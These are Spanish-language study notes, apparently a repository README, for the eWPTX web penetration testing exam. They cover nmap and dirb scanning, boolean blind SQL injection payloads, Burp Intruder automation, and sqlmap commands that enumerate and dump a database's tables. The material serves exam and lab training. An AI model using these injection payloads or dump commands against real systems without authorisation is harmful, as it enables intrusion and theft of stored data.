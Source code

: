 # eWPTX
Tools
## Escaneo de puertos
![image](https://github.com/user-attachments/assets/02a7281d-02c7-43ec-afe6-ece2eecf0317)

nmap -n -Pn -p- --open -vvv -T5 [IP] 

## Enumeración
![image](https://github.com/user-attachments/assets/1d95388b-e208-4b30-8e2c-ad1943a44dee)

dirb http://172.17.0.2/ [rockyou, common, big] -N 401 (Ignora un método) -r (No es recursivo)
##
dirsearch -u http://[IP]/ -w [WORDLIST] -t 16 -e php,txt -f (NO ESTÁ DISPONIBLE EN EL EXAMEN)



## Inyección SQL (SQLi): Blind SQLi
En el examen: MAGENTO ES VULNERABLE A SQLi

En las inyecciones a ciegas, el resultado no se ve en la pantalla (son deductivas... a partir del comportamiento de la aplicación)
### BOOLEAN
Tiene un comportamiento verdadero o falso (0 o 1)

|User: |' OR 1=1-- -|
|----|-----|
|Pass: |' OR 1=1-- -|

|User: |' OR (substring(database(),1,1))='p' -- -|
|-------|-------------|
|Pass: |' OR (substring(database(),1,1))='p' -- -|

|User: |' OR (ascii(substring(database(),1,1)))='45' -- -|
|----|----|
|Pass: |' OR (ascii(substring(database(),1,1)))='45' -- -|

|User: |' OR (ascii(substring(database(),1,1)))>'45' -- -|
|----|----|
|Pass: |' OR (ascii(substring(database(),1,1)))>'45' -- -|

Se puede automatizar con el BurpSuite:

Intruder --> payloads (numero) --> 32-126 

settings --> Redirections (always)


---
### TIME
Tiempo de carga (¿Cuanto demora en carga una página web?)


### OOB
Si se puede lelvar la info fuera del servidor
## 

### SQLMAP
--technique=BTU

--risk=

1: Payload a nivel de select y uniones

2: Payload de tiempo. Por ejemplo SLEEP.

3: Payload basados en BOOLEAN en OR

--level=

1: inyecciones en metodos GET/POST

2: inyecciones en las cookies

3: inyecciones en los headers: user-agent, referer

4: inyecciones todos los headers

5: inyecciones en todos los parametros sin excepción

### Boolean

- sqlmap -r request_boolean.txt -p user --technique=B --risk=3 --level=3 --current-db --dbms=mysql

- sqlmap -r request_boolean.txt -p user --technique=B --risk=3 --level=3 -D privacidadDB --tables --dbms=mysql

- sqlmap -r request_boolean.txt -p user --technique=B --risk=3 --level=3 -D privacidadDB -T usuarios --dump --dbms=mysql

### Time

- sqlmap -r request_time.txt -p descripción --technique=T --risk=3 --level=3 --current-db --dbms=mysql --flush-session


## Estratégia
1. Iniciar por el CMS MAGENTO
